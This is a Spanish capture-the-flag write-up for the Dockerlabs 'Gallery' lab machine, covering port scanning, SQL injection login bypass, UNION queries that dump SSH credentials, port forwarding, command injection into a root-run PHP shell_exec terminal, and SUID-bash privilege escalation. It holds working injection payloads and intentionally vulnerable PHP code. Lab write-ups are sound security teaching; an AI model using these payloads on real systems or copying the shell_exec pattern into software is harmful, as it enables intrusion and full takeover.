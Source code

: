 # 🖥️ Write-Up: [GALLERY](https://dockerlabs.es)

## 📌 Información General
    - Nombre de la máquina: Gallery
    - Plataforma: Dockerlabs
    - Dificultad: Difícil
    - Creador: cxfr4
    - OS: Linux
---

## 🔍 Enumeración

La máquina Gallery posee la IP 172.17.0.2.

### Descubrimiento de Puertos

Realizamos un reconocimiento de todos los puertos de la máquina y nos quedamos únicamente con aquellos que están abiertos. Para ello, vamos a recurrir a la herramienta **nmap**.

![allPorts](screenshots/allPorts.png)

La máquina tiene abiertos los puertos 22 y 80, así que vamos a proceder a descubrir los servicios y versiones que ejecutan.

![target](screenshots/target.png)

Como no disponemos de credenciales y esa versión de OpenSSH no es vulnerable, vamos a analizar el puerto 80.


### Puerto 80

Si accedemos con el navegador a la IP de la máquina podemos ver un portal de una galería de arte con un botón "Inicar sesión". 

![home_80](screenshots/home-80.png)

Revisando su código fuente no se encuentra nada interesante, así que pulsamos el botón de "Iniciar sesión" y vemos el panel de login.

![login-gallery](screenshots/login-gallery.png)

Intentamos entrar con las típicas credenciales, admin:admin, admin:admin123, admin:password,... sin resultado, por lo que vamos a introducir una comilla simple (') en el campo "username" para ver su comportamiento.

![error_sql](screenshots/error_sql.png)

Como vemos, es vulnerable a una SQL Injection, por lo tanto, vamos a introducir en el campo username `'or 1=1-- -` y una contraseña cualquiera.

Conseguimos acceder al dashboard, el cual dispone de dos funcionalidades, en la parte superior podemos registar obras de arte y en la parte inferior tenemos un sistema de búsqueda.

![dasboard](screenshots/dashboard.png)

## 🔥 Explotación

En la parte de registro de obras no hemos conseguido obtener nada pero, en el apartado de búsqueda, al introducir una comilla simple ('), como habíamos hecho antes, nos vuelve a arrojar un error de sql.

![search-simple](screenshots/search-simple.png)

![error_dashboard](screenshots/error_dashboard.png)

Antes de realizar la inyección, debemos de averiguar el número de columnas de la consulta, para ello tenemos que ir probando diferentes números hasta ver cual es el número anterior al último que produce el error.

Primero probamos con 100 columnas introduciendo en el campo de búsqueda `'order by 100-- -` y como hay menos de 100 columnas nos devuelve un error.

Si usamos `'order by 5-- -` la página carga con normalidad pero si usamos `'order by 6-- -` vemos que se produce el error de sql, es decir, introduciendo 5 o menos columnas en el `order by` la página carga correctamente pero si ponemos más, nos lanza el error de sql. Esto nos indica que la consulta usa 5 columnas.


Entonces, vamos a proceder a realizar una SQL Injection UNION. Ya que la consulta se tramita por GET usando el parámetro search_term, vamos a usar la url para realizar las inyecciones.

Primero, tenemos que averiguar las bases de datos existentes y como tenemos 5 columnas debemos de colocar 5 campos en el union select, así que escribimos `'union select 1,2,schema_name,4,5 from information_schema.schemata-- -`

![databases](screenshots/databases.png)

Vemos los nombres de las bases de datos. Nos vamos a centrar en secret_db, por lo que ahora nuestra inyección listará las tablas de esta base de datos `'union select 1,2,table_name,4,5 from information_schema.tables where table_schema='secret_db'-- -`

![tables](screenshots/tables.png)

Únicamente tenemos la tabla secret, así que toca enumerar sus columnas `'union select 1,2,column_name,4,5 from information_schema.columns where table_schema='secret_db' and table_name='secret'-- -`

![columns](screenshots/columns.png)

Nos interesa ver el contenido de las columnas ssh_users y ssh_pass de la tabla secret, por lo que la inyección sería `'union select 1,ssh_users,ssh_pass,4,5 from secret_db.secret-- -`

![data-table](screenshots/data-table.png)

Obtenemos al usuario **sam**,  y su contraseña **$uper$ecretP4$$w0rd123** 

## 🔑 Acceso SSH

Con estas credenciales nos conectamos por ssh al puerto 22 
```bash
ssh sam@172.17.0.2
```

![sam-ssh](screenshots/sam-ssh.png)

Tras revisar el sistema encontramos el directorio de un servicio web que no corresponde con la galería de arte en **/var/www/terminal**, en él tenemos un index.php, con una parte que ejecuta comandos.

```php
$output = isset($_POST['command']) ? '' : $header;
$commands = ['help', 'list_art', 'show_artists', 'check_status', 'view_logs', 'system_info'];

if (isset($_POST['command'])) {
    $cmd = $_POST['command'];
    if ($cmd === 'help') {
        $output = "Available commands:\n";
        $output .= "----------------\n";
        foreach ($commands as $command) {
            $output .= "- $command\n";
        }
        $output .= "\nGallery Management System - Admin Interface";
    } else if ($cmd === 'list_art') {
        $output = "Current Artworks:\n";
        $output .= "- La noche estrellada (ID: 1)\n";
        $output .= "- Mona Lisa (ID: 2)\n";
        $output .= "Status: Display Only Mode";
    } else if ($cmd === 'show_artists') {
        $output = "Registered Artists:\n";
        $output .= "- Vincent van Gogh\n";
        $output .= "- Leonardo da Vinci\n";
        $output .= "Access Level: Read Only";
    } else if ($cmd === 'check_status') {
        $output = "Gallery System Status:\n";
        $output .= "- Database: Connected\n";
        $output .= "- Backup: Enabled\n";
        $output .= "- Security: Enhanced\n";
        $output .= "- Last Check: " . date("Y-m-d");
    } else if ($cmd === 'view_logs') {
        $output = "Recent Activity:\n";
        $output .= "- [INFO] System startup\n";
        $output .= "- [WARN] Failed login attempt\n";
        $output .= "- [INFO] New artwork added\n";
        $output .= "Access: Restricted";
    } else if ($cmd === 'system_info') {
        $output = "Gallery Management System\n";
        $output .= "Version: 1.0\n";
        $output .= "Environment: Production\n";
        $output .= "Access Level: Guest";
    } else if (strpos($cmd, ';') !== false || strpos($cmd, '|') !== false) {
        // Aquí es donde realmente ejecutamos comandos
        $output = shell_exec($cmd);
    } else {
        $output = "Command not found. Type 'help' for available commands.";
    }
    $output = $header . "\n" . $output;
}
?>
```

Podemos ver como se trata de una especia de terminal que permite ejecutar una serie de comandos ya definidos, pero al final del código vemos un **shell_exec** que ejecuta el comando que le pasamos si este lleva  un punto y coma (;) o un pipe (|).

Ahora bien, hay que comprobar si este archivo index.php se está ejecutando de forma interna en la máquina, para ello usamos el comando `ps -faux`

![process](screenshots/procesos.png)

Y efectivamente, el usuario root lo está ejecutando internamente en el puerto 8888. Como disponemos de credenciales del servicio ssh, vamos a usar port forwarding para traernos ese puerto que se ejecuta internamente en la máquina a nuestro puerto 8888.

```bash
ssh -L 8888:127.0.0.1:8888 sam@172.17.0.2
```

De esta forma, accediendo a nuestro localhost por el puerto 8888 veremos el servicio web que se ejecutaba internamente en la máquina.

![terminal-web](screenshots/terminal-web.png)

## 🧗 Escalada de Privilegios

Como hemos visto en el archivo index.php, si añadimos un punto y coma (;) o un pipe (|) nos ejecutará el comando con shell_exec.

Así que introducimos `whoami;`

![whoami-root](screenshots/whoami-root.png)

Por lo tanto, podemos ejecutar comandos como root. Vamos a darle permisos SUID a la bash con `chmod u+s /bin/bash;` 

![suid](screenshots/suid.png)

Tras pulsar enter, miramos la bash en la terminal y ya tiene permisos SUID, así que nos lanzamos una bash privilegiada y ya somos root.

![root](screenshots/root.png)